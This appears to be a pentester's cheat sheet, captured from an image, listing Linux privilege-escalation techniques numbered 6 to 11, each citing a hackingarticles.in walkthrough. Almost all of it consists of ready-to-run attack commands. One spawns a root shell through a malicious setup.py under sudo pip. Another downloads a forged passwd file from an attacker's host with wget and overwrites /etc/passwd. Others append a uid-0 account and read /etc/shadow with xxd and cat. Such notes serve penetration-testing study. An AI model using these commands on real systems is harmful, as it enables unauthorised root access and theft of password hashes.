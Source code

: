 - 6)Linux for Pentester: pip Privilege Escalation</br>
    Reference: https://www.hackingarticles.in/linux-for-pentester-pip-privilege-escalation/</br>
    sudo -l</br>
    test All=(root) NOPASSWD: /usr/bin/pip</br>
    Victim:</br>
    TF=$(mktemp -d)</br>
    echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py</br>
    sudo pip install $TF</br>

- 7)git Priv esca</br>
    reference: https://www.hackingarticles.in/linux-for-pentester-git-privilege-escalation/</br>
    sudo -l</br>
    test All=(root) NOPASSWD: /usr/bin/git</br>
    Victim:</br>
    sudo git help config</br>

- 8)Linux for Pentester: cp Privilege Escalation</br>
    Reference: https://www.hackingarticles.in/linux-for-pentester-cp-privilege-escalation/</br>
    SUID permision</br>
        find / -perm -u=s -type f 2>/dev/null</br>
    Attacker:</br>
    openssl passwd -1 -salt ignite pass123</br>
    (create passwd file in local machine and put ignite password as above)</br>
    python -m SimpleHTTPServer</br>

   Victim:</br>
    cd /tmp</br>
    wget http://192.168.0.16:8000/passwd</br>
    cp passwd /etc/passwd</br>
    tail /etc/passwd</br>
    su ignite</br>
    password: pass123</br>
    id</br>

- 9)Linux for Pentester: Taskset Privilege Escalation</br>
        reference: https://www.hackingarticles.in/linux-for-pentester-taskset-privilege-escalation/</br>
        sudo -l</br>
        find / -perm -u=s -type f 2>/dev/null</br>
        openssl passwd -1 –salt mark pass123</br>
        Victim:</br>
        taskset 1 echo 'mark:$1$mark$PL9HIgTDwnE9sG27q2Nrb/:0:0:root/:root:/bin/bash' >>/etc/passwd</br>
        su mark</br>
        id</br>

- 10)Linux for Pentester: xxd Privilege Escalation</br>
        Reference:https://www.hackingarticles.in/linux-for-pentester-xxd-privilege-escalation/</br>
        SUID : find / -perm -u=s -type f 2>/dev/null</br>
        Vitim: xxd "/etc/shadow" | xxd -r</br>
        </br>
- 11)Linux for Pentester: CAT Privilege Escalation</br>
        Reference:https://www.hackingarticles.in/linux-for-pentester-cat-privilege-escalation/</br>
        Victim:</br>
        sudo -l</br>
        sudo cat /etc/shadow</br>
